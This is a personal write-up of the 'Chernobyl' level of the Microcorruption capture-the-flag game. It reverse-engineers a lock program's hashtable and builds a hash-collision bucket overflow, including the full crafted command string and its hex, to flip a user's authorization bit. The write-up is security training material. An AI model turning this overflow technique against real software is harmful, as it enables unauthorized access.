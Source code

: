 # Chernobyl #

- There is a hashtable of users
- There appear to be "commands" you can enter
  - 'access {name} {pin}' = "access" the lock
  - 'new {name} {pin};' = Create a new user (permission not granted by default)

Called with r15 = 3, r14 = 5
`<create_hash_table>`
r15 = max_entries
r14 = items per entry

r10 points at the table structure:
```c
struct table {
    __int16_t item_count;
    __int16_t items_per_bucket;
    __int16_t bucket_count;
    __int8_t *??; // = malloc(2^items_per_bucket)
    __int16_t *item_counts; // = malloc(max_entries * sizeof(__int16_t))
}
```
10 bytes

```c
struct table_entry {
    char name[16];
    union auth_and_pin {
        __int16_t authorized:1;
        __int16_t pin:15;
    }
}
```
18 bytes

example table at 0x5006
```asm
5000:   0050 1050 1500 0100 0300 0500 1650 2c50   .P.P.........P,P
5010:   0050 2650 2100 4250 a250 0251 6251 c251   .P&P!.BP.P.QbQ.Q
5020:   2252 8252 e252 1050 3c50 2100 0000 0000   "R.R.R.P<P!.....
5030:   0000 0100 0000 0000 0000 0000 2650 9c50   ............&P.P
5040:   b500 0000 0000 0000 0000 0000 0000 0000   ................
```

table entry (name = "bob", pin = 1)
```asm
5150:   0000 0000 0000 0000 0000 0000 fc50 bc51   .............P.Q
5160:   b500 626f 6200 0000 0000 0000 0000 0000   ..bob...........
5170:   0000 0100 0000 0000 0000 0000 0000 0000   ................
```

The high bit of the pin field is used to indicate authorization. There is an error message displayed if you specify a numeric value for the pin that has the high bit set.
Idea: need to understand how names are hashed, maybe we can make a collision that overwrites the top bit of a pin? Or maybe the entered user name is not checked for length?

Hash function, very much like usual implementations of `hashCode` when writing Java
```c
__int16_t hash(const char *value) {
    __int16_t result = 0;
    for (unsigned long i = 0; i < strlen(value); i++) {
        __int16_t c = (__int16_t) value[i];
        result = (result + c) * 31;
    }
    return result;
}
```

When the number of entries grows to a certain size, then the table is grown and the items are re-hashed into the new table;

The fact that you can input multiple commands separated by a semi-colon ';' just seems extraneous or maybe even a hint that you're going to put in a lot of accounts to get it to re-hash and then do something after the re-hash. I did see blocks returned by calls to `malloc` that had been used before and freed during a re-hash. The block's data remains intact, but I didn't see how I could use that since it was mostly the 5 18 byte table entry allocations. If they had been aligned a little differently and you could have left behind a lot of bits set and then entered an account name that hashed to that spot, maybe you could have gotten the high bit of the "pin" to have been set by previous contents, but the blocks came back aligned the same way as first time they were used.

Input at sp = 0x3dec, could we just write 4634 bytes of input + fake table data? No, call to `getsn` has it read 0x550 (1360) bytes

Could we try and add so many items that hash to the same bucket that it fills up the bucket? I'm still not totally clear on when the `rehash` call is decided.

From https://medium.com/@vaibhav0109/https-medium-com-vaibhav0109-java-hashcode-collision-how-uniform-is-its-distribution-ee4e5e8dc894

> If String a and String b have a common prefix and the same length — if n and the statement `31*(b[n-2] — a[n-2]) == (a[n-1] — b[n-1])` is true — it means that first and second strings have the same hashcode.

Bingo! If you keep adding accounts that hash to the same bucket, you can overflow the bucket of items.

So place an item in bucket `N`, and then overflow bucket `N-1` such that an item in bucket `N-1`'s `pin` falls on the address of data entered for bucket `N` where the high bit is set. You probably can't just overflow with any old values, because you'll also be overwriting the `name` field. So you have to overwrite with a valid name that would hash to that bucket.

`new abab 0;new bbabbbabbbaccac 1;new bbabbbabbbaddbd 2;new bbabbbabbbaeece 3;new bbabbbabbbaffdf 4;new bbabbbabbbaggeg 5;new bbabbbabbbahhfh 6;new bbabbbabbbaiigi 7`

the 6th item to overrun the preecding bucket overwrites the name with its 7th-16th bytes
the 7th item to overrun the preceding bucket overwrites the pin with its 7th and 8th bytes

entry @0x51c2, pin @51d2

`6e657720626f622010`

`new cb 0;new acb 1;new abcb 2;new aaabcb 3;new aaaaaaabcb 4;new aaaaaaaaabcb 5;new aaaaabcb 6;new ``````0x80 0x80 7;access cb 128`

```
6e657720636220303b
6e65772061636220313b
6e6577206162636220323b
6e65772061616162636220333b
6e6577206161616161616162636220343b
6e65772061616161616161616162636220353b
6e657720616161616162636220363b
6e65772060606060808020373b
61636365737320636220313238

6e657720636220303b6e65772061636220313b6e6577206162636220323b6e65772061616162636220333b6e6577206161616161616162636220343b6e65772061616161616161616162636220353b6e657720616161616162636220363b6e65772060606060808020373b616363657373206362203132383b
```

Well, that works, it results in the message "Access granted." but had I been reading the code a little more critically I would have noticed that that does not actually unlock the lock because nowhere in the code is there a call to the interrupt that does that. So where does that leave us? We must have to execute some of our own code to do it. I did go find some information from other folks who have beaten this level, just to see if there was something I'm missing, but I ended up finding out that just getting a user with access granted is not enough. I'm dissapointed because I felt like I really dove into this one and didn't want any hints, but oh well. I tried not to read any specific details, but from [this site](https://nullset.xyz/2015/12/18/microcorruption-ctf-chernobyl/) I came to realize we have to hijack the heap. Maybe I'll spend some time on that and post a part 2.
